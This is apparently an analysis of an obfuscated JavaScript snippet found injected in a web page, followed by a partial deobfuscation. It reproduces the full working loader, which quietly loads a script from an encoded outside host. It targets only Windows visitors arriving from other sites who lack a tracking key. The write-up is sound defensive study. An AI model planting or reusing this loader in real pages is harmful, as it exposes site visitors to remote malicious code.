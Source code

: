 ```javascript
;
(function () {
  var dq = document.referrer;
  var ad = window.location.href;
  var xw = navigator.userAgent;
  var ej = new RegExp(vz("p:p/z/j(a[c^y/t]c+x)y/x"));
  if (!dq || ad.match(ej)[1] == dq.match(ej)[1] || xw.indexOf(vz("xWvitnadrobwbsr")) == -1 || window.localStorage[vz("k_m_h_suetemmal")]) {
    return;
  }
  var kf = vz("usvcxrqizpktc");
  var ox = document.createElement(kf);
  ox.async = true;
  ox.src = vz("shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u");
  var fq = document.getElementsByTagName(kf)[0];
  fq.parentNode.insertBefore(ox, fq);
  function vz(wm) {
    var yo = "";
    for (var ud = 0; ud < wm.length; ud++) {
      if (ud % 2) {
        yo += wm[ud];
      }
    }
    return yo;
  }
}());
```

This is clearly an attempt to obfuscate what the code is doing, so I'll do the work to "reverse-engineer" this into something that makes more sense:

```javascript

/**
 * @brief Deobfuscates a string
 * @details Takes every other character of the original string
 *
 * @param {string} obfuscated_str Obfuscated string to deobfuscate
 * @returns {string} Deobfuscated string
 */
function deobfuscate_str(obfuscated_str) {
    var deobfuscated_str = "";
    for (var i = 0; i < obfuscated_str.length; i++) {
        if (i % 2) {
            deobfuscated_str += obfuscated_str[i];
        }
    }
    return deobfuscated_str;
}

// Check if any are true, if so return:
//  1. No referrer
//  2. The current page and the referrer both have match the regex "://([^/]+)/"
//  3. The User Agent does *not* have the string "Windows"
//  4. The key "___utma" in the local storage has a "truthy" value
var re = new RegExp(deobfuscate_str("p:p/z/j(a[c^y/t]c+x)y/x") /* ://([^/]+)/ */);
if (
    !document.referrer || window.location.href.match(re)[1] == document.referrer.match(re)[1] || 
    navigator.userAgent.indexOf(deobfuscate_str("xWvitnadrobwbsr") /* Windows */) == -1 || 
    window.localStorage[deobfuscate_str("k_m_h_suetemmal") /* ___utma */]
) {
    return;
}
```